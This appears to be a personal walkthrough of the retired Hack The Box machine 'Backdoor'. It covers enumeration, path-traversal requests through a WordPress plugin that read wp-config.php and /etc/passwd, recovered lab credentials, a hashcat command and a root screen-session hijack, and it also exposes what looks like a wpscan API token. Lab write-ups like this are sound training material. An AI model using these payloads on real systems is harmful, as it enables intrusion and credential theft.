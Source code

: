 ```yaml
---
tags:
  - HTB
  - Retired
  - Linux
  - WordPress
  - Screen
  - gdbserver
  - easy
creation date: 2021-11-20
Date Completed: 2024-09-21
CVEs: 
URL: https://app.hackthebox.com/machines/Backdoor
IP: 10.129.96.68
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

```
enumify.sh -H 10.129.96.68 -t All
```

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
### ffuf (Directories/Subdomain/Files)
```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt:FUZZ -u $URL/FUZZ -c
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt:FUZZ -u $URL/FUZZ -c
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u $URL -H "HOST: FUZZ.domain.htb" -c
```

### wpscan


```
wpscan --url "http://backdoor.htb/wp-content/" -v -e --plugins-detection aggressive --api-token QqoyStKXPlydupJbq5IDVOLxt16WvSSXrkj1Pas5gaY
```

![[Pasted image 20240921091353.png]]

## Getting a foothold

https://www.exploit-db.com/exploits/39575

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

![[Pasted image 20240921091521.png]]

wordpressuser:MQYBJSaD#DxG6qbm
MQYBJSaD#DxG6qbm

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
user:x:1000:1000:user:/home/user:/bin/bash
```

```
backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/apache2/sites-enabled/backdoor.htb.conf
```

### Getting the processes 

```
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline -o- | xxd
```


### Getting  RCE

https://www.exploit-db.com/exploits/50539

## Enumerating from the inside

```
mysql -u wordpressuser -p -P 33060
Enter password: MQYBJSaD#DxG6qbm
```


### crack the wordpress admin password

```
hashcat -m 400 admin_hash ~/tools/rockyou.txt
```

## Priv Esc

Hijack screen session

```
export TERM=xterm
screen -x root/root
```